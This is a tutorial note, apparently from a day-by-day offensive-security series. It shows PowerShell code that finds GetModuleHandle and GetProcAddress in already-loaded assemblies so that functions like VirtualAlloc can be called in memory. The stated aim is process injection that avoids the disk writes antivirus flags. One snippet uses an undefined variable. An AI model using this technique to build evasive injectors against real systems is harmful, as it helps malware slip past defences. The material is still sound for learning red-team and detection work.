

# Powershell-Process Injection drawbacks

- The problem with technique shown on [day11](../days/day11.md) is that it will save the code temprorily on disk which will be enough for AV to flag. The `Add-Type` instruction creats a C# code and a compiled DLL that bascially contains the compiled source code for C# which is executed. But since it touches a **DISK** its a big NO

# What to do now?

- We will basically just create assembly instructions and execute those in memory instead of writing the code and then compiling it which would copy temprory to disk.

# How to Do?

- Use `GetModuleHandle` and `GetProcAddress` to perfrom dynamic lookup.
GetModuleHandle is used to obtain handle i.e memory address for the specific DLL and GetProcAddress will be later used to get memory address of function inside the DLL.

- Now the next question is how to import these methods. Here, we will look into finding the methods that are already loaded into current session and utilizing those.


We will first find the method loaded via powershell
```powershell
$asm=[System.AppDomain]::CurrentDomain.GetAssemblies()
$asm | ForEach-Object { $_.Location
	$_.GetTypes() |
		ForEach-Object {
			$_ |Get-Member -Static |Where-Object {
				$_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
			}
	} 2> $null
}
```
This would show DLL thats currently is used for session and methods used by DLL.


We now need to get the reference to these functions via getting handle to System.dll using GetType method.

```powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
$address_kernel32=$GetModuleHandle.Invoke($null,@("kernel32.dll"))
```
Now $address_kernel32 will have the base address for kernel32.dll

Now to get address of function inside method of kernel32.dll like VirtualAlloc
```
$GetProcAddress = $unsafeObj.GetMethod('GetProcAddress')
```
Now this will give error since there are just sooo many instance of GetProcAddress.Hence we need to select any one and get address from that.
```powershell
$ref=@()
$unsafeObj.GetMethods() |ForEach-Object {If($_.Name -eq "GetProcAddress") {$ref+=$_}}
$ref[0].Invoke($null,@($kernel32,"VirtualAlloc"))
```
This would print out the address of function VirtualAlloc present in kernel32.dll from present session.

Hence we can convert it to a function that would just give you address and you just need to pass DLL and method name.

```powershell
function GetAddr($DLL,$Method){
	$systemdll=([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')})
	$unsafeobj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
	$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
	$addr_kernel = $GetModuleHandle.Invoke($null,@($DLL[0]))
	$ref=@()
	$unsafeobj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$ref+=$_}}
	$base_addr = $ref[0].Invoke($null,@($addr_kernel,$DLL[1]))
	return "$addr_kernel,$base_addr"
}
```
Now you can call it like
```
GetAddr("kernel32.dll","VirtualAlloc")
```
